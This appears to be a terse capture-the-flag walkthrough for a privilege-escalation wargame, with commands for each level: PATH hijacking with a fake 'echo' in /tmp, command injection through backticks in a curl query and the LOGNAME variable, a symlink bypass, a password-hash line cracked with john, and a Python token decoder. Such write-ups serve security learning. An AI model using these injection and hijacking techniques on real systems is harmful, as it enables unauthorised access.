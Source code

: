 # snow_cash

## level00

- cloudshark
- john
- dcode.fr 
 usr/sbin/john
## level01 

`flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash`

`docker run -it kalilinux/kali-rolling'`
`john test.txt --show`

## level02 

`chmod +r`

`scp -P 4242 level02@localhost:/home/user/level02/level02.pcap  /home/sgroinfr/kali_c/shared` 

`tshark -r level02.pcap -q -z follow,tcp,ascii,0`

## level03 

`strace ./level03 | grep Exploit`
[pid 2599] system("/usr/bin/env echo Exploit me"

>The program is using system() to execute a command that uses /usr/bin/env to run echo. This is a potential vulnerability because it's using the PATH environment variable to find the echo command.

```
cd /tmp
echo '#!/bin/bash' > echo
echo 'getflag' >> echo
chmod +x echo
```
`export PATH=/tmp:$PATH`

`./level03`

## level04 

>we try differet stuff
```
curl localhost:4747/?x="\`/bin/getflag\`"
```

## level05 
`vim /opt/openarenaserver/getflag.sh`
```
#!/bin/bash
/bin/getflag > /tmp/flag05
```
## level 6

`echo '[x ${`getflag`}]' > /tmp/flag06`
`./level06 /tmp/flag06`


## level07 

`strings ./level07` 
LOGNAME
/bin/echo %s 
;*2$" what is that  
```
export LOGNAME="\`getflag\`"
```

## level08 

%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
;*2$"


`ln -s $(realpath token) /tmp/symlink`
`./level08 /tmp/symlink`

## level09

UWVS
You should not reverse this
LD_PRELOAD
Injection Linked lib detected exit..
/etc/ld.so.preload

creat scripte in tmp 

```
#!/usr/bin/python
import sys
i = -1
content = open("/home/user/level09/token").readlines()[0]
for c in content:
   i += 1
     try:
        sys.stdout.write(chr(ord(c) - i))
     except:
        pass

print()
```
